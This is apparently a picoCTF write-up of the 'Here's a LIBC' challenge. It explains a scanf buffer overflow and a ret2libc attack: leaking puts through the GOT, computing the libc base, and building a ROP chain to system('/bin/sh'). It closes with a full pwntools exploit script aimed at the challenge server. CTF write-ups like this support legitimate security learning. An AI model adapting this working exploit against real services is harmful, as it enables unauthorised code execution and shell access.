 ```yaml
---
slug: heres_a_libc
title: Here's a LIBC
authors: [nguyen]
tags: [Pico CTF, Binary Exploitation]
---
```


<!--truncate-->

## The Challenge

The challenge can be found [here](https://play.picoctf.org/practice).

## Analysis

I always like to start off with running checksec on the binary of interest.

```bash
checksec ./vuln
```

Insert image of checksec result here.

We won't be able to execute instructions on the stack so a ropchain may be necessary. PIE is not enabled so we will not need to worry about memory addresses changing every time we run the binary.

Using Ghidra, we find that there is a ```scanf``` vulnerability that can lead to a buffer overflow. We can use ```cyclic``` to determine the overflow offset which is 136.

## The Solve

There is no flag within the binary so we will try to obtain a shell. If we leak a libc address, we can find the base address of the library and then utilize the system function to start a shell.

To get the binary to run locally, I used ```pwninit``` to automatically fetch a linker that can load the provided libc without segfaulting and patch the vuln binary.

A common technique here is to use ```puts``` to leak the ```puts``` GOT. With the ```puts``` address, we can determine the address for system and craft a ropchain to run ```system("bin/sh")```. Due to stack alignment, I needed an extra ```ret``` instruction.

Now we have a shell and can see that there is a flag file that we can ```cat```.

## Script

```python
from pwn import *

exe = ELF("./vuln_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.27.so")

context.binary = exe
context.log_level = 'info'
context.terminal = ['gnome-terminal', '-e']

gdb_script = """
"""

def conn():
    '''Establish the connection to the process, local or remote.
    '''

    if args.get('REMOTE'):
        io = remote('mercury.picoctf.net', 24159)
    elif args.get('GDB'):
        io = gdb.debug([exe.path], gdb_script)
    else:
        io = process([exe.path])
    return io


def main():
    '''Return the flag.
    '''
    offset = 136

    rop = ROP(exe)
    with conn() as io:
        pattern = b"A" * offset + p64(rop.find_gadget(['pop rdi', 'ret'])[0]) + \
                    p64(exe.got['puts']) + p64(exe.plt['puts']) + p64(exe.symbols['main'])
        io.sendline(pattern)
        io.recvlines(2)
        # Get the puts output of the puts GOT address
        got_addr = io.recvline()
        # Strip newline
        got_addr = got_addr[:-1]
        
        # Pad for packing
        pad_len = 8 - len(got_addr)
        got_addr = got_addr + (b"\x00" * pad_len)

        print(f"GOT ADDR: {hex(u64(got_addr))}")
        base_addr = u64(got_addr) - 0x180a30
        print(f"Base addr: {hex(base_addr)}")
        system_addr = base_addr + 0x0014f4e0
        print(f"System addr: {hex(system_addr)}")
        bin_sh_addr = base_addr + 0x2b40fa
        
        # Note stack alignment issues so additional ret was required for 16 byte alignment
        payload = b"A" * offset + p64(rop.find_gadget(['pop rdi', 'ret'])[0]) + \
                    p64(bin_sh_addr) + p64(rop.find_gadget(['ret'])[0]) + \
                    p64(system_addr)
        io.sendline(payload)
        io.interactive()


if __name__ == '__main__':
    main()
```
